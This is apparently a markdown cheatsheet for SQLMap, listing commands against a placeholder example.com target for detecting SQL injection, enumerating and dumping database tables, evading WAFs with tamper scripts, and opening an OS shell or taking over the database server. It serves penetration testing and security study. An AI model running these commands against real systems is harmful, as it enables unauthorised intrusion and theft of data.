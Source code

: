 ```yaml
---
title: SQLMap
tags: 
 - sqlmap
 - cheatsheet
---
```


SQLMap is an open-source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over database servers. This cheatsheet provides a quick reference to essential SQLMap commands and usage scenarios.

## 1. Basic Usage

### 1.1 Detecting SQL Injection

```bash
sqlmap -u "http://example.com/page.php?id=1"
# Automatically tests for SQL injection vulnerabilities.
```

### 1.2 Specifying HTTP Method

```bash
sqlmap -u "http://example.com/form" --data="query=test" --method=POST
# Test a form with POST data.
```

## 2. Database Management System Specification

### 2.1 Specify DBMS

```bash
sqlmap -u "http://example.com/page.php?id=1" --dbms=mysql
# Specify the backend database management system (MySQL in this case).
```

### 2.2 Test All DBMS

```bash
sqlmap -u "http://example.com/page.php?id=1" --all
# Test all supported DBMSs.
```

## 3. Data Enumeration

### 3.1 Get Database Names

```bash
sqlmap -u "http://example.com/page.php?id=1" --dbs
# List the names of available databases.
```

### 3.2 Get Tables in a Database

```bash
sqlmap -u "http://example.com/page.php?id=1" -D dbname --tables
# List the tables within a specified database.
```

### 3.3 Dump Table Data

```bash
sqlmap -u "http://example.com/page.php?id=1" -D dbname -T tablename --dump
# Dump the entries of a specified table from the database.
```

## 4. Advanced Techniques

### 4.1 Using Proxies

```bash
sqlmap -u "http://example.com/page.php?id=1" --proxy="http://127.0.0.1:8080"
# Route traffic through a proxy.
```

### 4.2 Tampering Scripts

```bash
sqlmap -u "http://example.com/page.php?id=1" --tamper="space2comment"
# Use a tamper script to evade filters or WAFs.
```

### 4.3 OS Shell Interaction

```bash
sqlmap -u "http://example.com/page.php?id=1" --os-shell
# Attempt to open an OS shell on the database server.
```

### 4.4 Database Server Takeover

```bash
sqlmap -u "http://example.com/page.php?id=1" --os-pwn
# Automate the exploitation of a remote DBMS via out-of-band SQL injection.
```

## 5. Automating Requests

### 5.1 Batch Mode

```bash
sqlmap -u "http://example.com/page.php?id=1" --batch
# Automatically accept defaults for all questions.
```

### 5.2 Saving Results

```bash
sqlmap -u "http://example.com/page.php?id=1" --output-dir=/path/to/output
# Save the output of SQLMap to a specified directory.
```

## 6. References

- [Official SQLMap Documentation](http://sqlmap.org/)
- [SQLMap GitHub Repository](https://github.com/sqlmapproject/sqlmap)
